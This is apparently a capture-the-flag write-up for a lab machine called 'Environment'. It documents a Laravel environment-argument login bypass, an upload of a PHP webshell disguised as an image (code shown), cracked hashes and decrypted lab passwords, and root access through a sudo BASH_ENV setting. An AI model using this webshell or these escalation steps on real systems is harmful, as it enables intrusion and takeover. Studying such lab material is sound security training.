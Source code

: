 # Environment (10.10.11.67)

```bash
PORT     STATE SERVICE   REASON         VERSION
22/tcp   open  ssh       syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c023395ef44e280cd3a960223f19264 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGrihP7aP61ww7KrHUutuC/GKOyHifRmeM070LMF7b6vguneFJ3dokS/UwZxcp+H82U2LL+patf3wEpLZz1oZdQ=
|   256 1f3dc2195528a17759514810c44b74ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ7xeTjQWBwI6WERkd6C7qIKOCnXxGGtesEDTnFtL2f2
80/tcp   open  http      syn-ack ttl 63 nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.22.1
```
- no containers from TTL
# HTTP 80

- redirected to: environment.htb
- laravel backend (php nginx debian)
- no strange comment
- no subdomain in port 80
- we can send mail to: /mailing
- maybe cve-2024-52301
- we can alter text in /page:
```bash
curl 'http://environment.htb/?--env=test'

# output gets reflected in title
```
- maybe env is setting title or something like that
- --env=development doesnt seems to do anything other than setting HTML to user input
- found:
```hmtl
/login                (Status: 200) [Size: 2391]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/mailing              (Status: 405) [Size: 244854]
/robots.txt           (Status: 200) [Size: 24]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/up                   (Status: 200) [Size: 2126]
/upload               (Status: 405) [Size: 244852]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
```
- if we force an error we can see a part of the backend with comments:
```php

        $keep_loggedin = False;
    } elseif ($remember == 'True') {
        $keep_loggedin = True;
    }
 
    if($keep_loggedin !== False) {
    // TODO: Keep user logged in if he selects "Remember Me?"
    }
 
    if(App::environment() == "preprod") { //QOL: login directly as me in dev/local/preprod envs
        $request->session()->regenerate();
        $request->session()->put('user_id', 1);
        return redirect('/management/dashboard');
    }
 
    $user = User::where('email', $email)->first();
```
- we can try intercept a login with random data and add "?--env=preprod" as get param
- logged in as Hish
- we can just change profile pic, just picture (maybe file upload bypass) 
- we can upload a PHP webshell:
```txt
POST /upload HTTP/1.1
Host: environment.htb
Content-Length: 41460
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMqYGhUpNQQXI3xOX
Accept: */*
Origin: http://environment.htb
Referer: http://environment.htb/management/profile
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6ImtlUFhnaU56MGY0ZGpOcXpGSzdwaWc9PSIsInZhbHVlIjoiMU9tb3oybG1Bb29YYkptNDRaZ2JuWllwMDlBWWVUbUhoYkZGSXVnRUNEeVNSM3pZQXRVZlVaWjJLc1JxdWxoWDgrU1VvYWdUTFJ1VTV6K2N1WVRjdk5yTWVxSG9JbEJ6aFpsL052clBaWlBXOTRBYWdnc1JvSkUzQmlsUGRmRkoiLCJtYWMiOiJmYzc4NTBkZjA4YmQ4ZDdlZmE5YzIxYjU5MmU4NWU0MTc2OWM2NjNmMWQzMmI0ZmZiMzI4YjA2ZjI1OGEwMzMwIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IklMVXBrb3YrVG9LZGtYNHk2WXA4Q0E9PSIsInZhbHVlIjoib2t4VnROeThJVHg2QzB2Mno0aUh1aS9wMlFHT3VaMXd3K1ZCVElBSjcyaFlIREhRS3c4Q2xncTRVUDRjYVJ3NGtTMC81aTBnQis5TEs1L25KaVRZNStSWDNIUjVvTE9ZcnozM1ArekpJQVAvWWxVd0JTd3BGRk15NGIranE3U0kiLCJtYWMiOiJjY2U4MWQ0NjI1OGQ5MmNjODZlYTI0YTkwMmZjYjgyMzA0ZjJiOTI3NzVmNWIzZTEzMDk2MmRkOGMyMjBmYzBmIiwidGFnIjoiIn0%3D
Connection: keep-alive

------WebKitFormBoundaryMqYGhUpNQQXI3xOX
Content-Disposition: form-data; name="_token"

mY6TDwTbv2ENGZhBTnCu95GBj1r5QjiVJi752YFF
------WebKitFormBoundaryMqYGhUpNQQXI3xOX
Content-Disposition: form-data; name="upload"; filename="shell.php."
Content-Type: image/png

<image data>

<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
```
- we can execute commands by visiting 'http://environment.htb/storage/files/shell.php?cmd=ls' 
- keep the session
- we can put revshell payload.

# www-data

- we can read some config files and found db sqlite
- users table:
```sql
$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi
$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm
$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.
```

- found gpg file and decripted:
```bash
(remote) www-data@environment:/home/hish$ cp -r .gnupg/ /tmp/.gnupg
(remote) www-data@environment:/home/hish$ export GNUPGHOME=/tmp/.gnupg/
(remote) www-data@environment:/home/hish$ gpg --list-secret-keys
gpg: WARNING: unsafe permissions on homedir '/tmp/.gnupg'
/tmp/.gnupg/pubring.kbx
-----------------------
sec   rsa2048 2025-01-11 [SC]
      F45830DFB638E66CD8B752A012F42AE5117FFD8E
uid           [ultimate] hish_ <hish@environment.htb>
ssb   rsa2048 2025-01-11 [E]

(remote) www-data@environment:/home/hish$ 
(remote) www-data@environment:/home/hish$ chmod 700 /tmp/.gnupg/
(remote) www-data@environment:/home/hish$ gpg --list-secret-keys
/tmp/.gnupg/pubring.kbx
-----------------------
sec   rsa2048 2025-01-11 [SC]
      F45830DFB638E66CD8B752A012F42AE5117FFD8E
uid           [ultimate] hish_ <hish@environment.htb>
ssb   rsa2048 2025-01-11 [E]

(remote) www-data@environment:/home/hish$ gpg --decrypt /home/hish/backup/keyvault.gpg 
gpg: encrypted with 2048-bit RSA key, ID B755B0EDD6CFCFD3, created 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- password reuse for environment.htb:marineSPm@ster!!

# hish

- we sudo -l:
```bash
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV
    BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- with BASH_ENV we can execute code by creating /tmp/test.sh
```bash
#!/bin/bash

cp /bin/bash /tmp/bash
chmod +xs /tmp/bash
```

- then we can have RCE:
```bash
sudo BASH_ENV=/tmp/test.sh /usr/bin/systeminfo
```

# root

- we now have bash SUID bash in tmp

